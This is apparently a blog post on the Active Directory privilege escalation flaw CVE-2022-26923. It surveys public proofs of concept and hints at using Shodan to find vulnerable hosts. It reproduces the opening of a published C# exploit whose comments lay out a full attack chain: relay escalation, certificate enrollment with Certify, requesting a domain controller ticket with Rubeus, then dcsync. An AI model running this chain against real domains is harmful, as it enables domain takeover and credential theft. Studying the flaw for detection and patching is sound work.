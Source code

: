 **Although Microsoft claims that this newly revealed Active Directory Domain privilege escalation flaw hasn’t been yet exploited in the wild, some reputable security researcher has released their PoC's in their blogs or Github repo.**  Weirdly, when I checked the **exploit.db website**, there is no exploit for this vulnerability yet. I also checked [socprime website](https://socprime.com/blog/cve-2022-26923-detection-active-directory-domain-privilege-escalation-vulnerability/) and they also say it has not been exploited in the wild yet.

**However**, even a simple search enable some working PoC's and [**shodan website**](https://www.shodan.io) also can give many vulnerable Windows devices. (_You need to search with the correct search queries to find them, though._) Here, I will add some links for you to examine the PoC links and some code which prove that this vulnerability has been begun being exploited in the wild. On the other hand, since this attacks may require some knowledge, and it is pretty new, it is true that CTI Interest Score is low. I have added a screenshot after my detailed research to be sure if there is a working PoC or not.

The exploitability is told to be easy. It is possible to launch the attack remotely. The successful exploitation needs a authentication. Technical details are unknown but ==a few  public exploits are available==.

First public exploit has been developed by **Oliver Lyak** (ly4k_) in Python and been published before and not just after the advisory. It is declared as ==proof-of-concept==. The exploit is shared in his website for download at [**research.ifcr.dk**](https://research.ifcr.dk/). 
Another exploit was written by [Dominic Chell](https://gist.github.com/dmchell) from MDSecLabs. I just added the screenshots here, so if interested, you can check the code in detail in his Github.

```// Exploit for Active Directory Domain Privilege Escalation (CVE-2022–26923)
// Author: @domchell - MDSec
// This exploit can be used to update the relveant AD attributes required to enroll in a machine template as any machine in AD using an existing machine account
// Adjusting MS-DS-Machine-Account-Quota is not sufficient to stop this attack :)

// Steps:
// 1.       Escalate on any workstation (hint: krbrelayup ftw)
// 2.       Execute UpdateMachineAccount.exe as SYSTEM
// 3.       Enroll in machine template e.g. (Certify.exe request /ca:"ca.evil.corp\\CA" /template:Computer /machine /subject:CN=dc.evil.corp
// 4.       Request a TGT using the certificate e.g. (Rubeus.exe asktgt /user:dc$ /domain:evil.corp /dc:dc.evil.corp /certificate:<base64 cert> /enctype:AES256)
// 5.       Profit with s4u, silver ticket, dcsync etc...

// Credits: Oliver Lyak (@ly4k_) for CVE-2022–26923, Certipy and the excellent write up at https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4


using System;
using System.DirectoryServices;

namespace UpdateMachineAccount
{
    class Program
    {

        public static void SetAdInfo(string objectFilter,
                string domain, string dchost, string LdapDomain)
        {
            string connectionPrefix = "LDAP://" + LdapDomain;
            DirectoryEntry entry = new DirectoryEntry(connectionPrefix);
            DirectorySearcher mySearcher = new DirectorySearcher(entry);
            mySearcher.Filter = objectFilter;
            mySearcher.PropertiesToLoad.Add("serviceprincipalname");
            mySearcher.PropertiesToLoad.Add("dnshostname");

            SearchResult result = mySearcher.FindOne();

            Console.WriteLine("[*] Searching for object");

```